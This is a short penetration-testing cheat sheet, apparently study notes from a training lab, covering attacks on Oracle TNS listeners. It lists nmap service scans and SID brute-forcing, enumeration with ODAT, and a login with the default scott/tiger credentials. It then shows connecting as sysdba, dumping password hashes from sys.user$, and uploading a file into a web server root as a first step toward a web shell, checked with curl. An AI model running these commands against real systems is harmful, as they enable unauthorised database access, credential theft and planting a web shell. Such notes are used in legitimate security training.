 
# Cheat Sheet

```shell-session
# Default TCP listening on port 1521

# Default files tnsnames.ora and listener.ora location
$ORACLE_HOME/network/admin

# Default files are in PLAIN TEXT

# Nmap scan 
sudo nmap -p1521 -sV {target ip} --open

# Nmap SID Bruteforce
sudo nmap -p1521 -sV {target ip} --open --script oracle-sid-brute

# After setting up ODAT
# Testing ODAT
python3 ./odat.py -h

# Enumerate using ODAT
./odat.py all -s {target ip}


# SQLplus - Log in
sqlplus scott/tiger@10.129.204.235/XE

# Check tables
select table_name from all_tables;

# Check privileges
select * from user_role_privs;

# Connect as sysadmin
sqlplus username/password@{target ip}/XE as sysdba

# Extract Password Hashes
select name, password from sys.user$;

# File Upload web shell to target
# Needs the server to be running a web server and we need to know the exact location of the root dir

# Linux file path 
/var/www/html

# Windows file path
C:\inetpub\wwwroot

# Create text file and upload to the target system
# echo "Oracle File Upload Test" > testing.txt
# ./odat.py utlfile -s {target ip} -d XE -U username -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

# Test if the file upload works using cURL
curl -X GET http://{target ip}/testing.txt
```
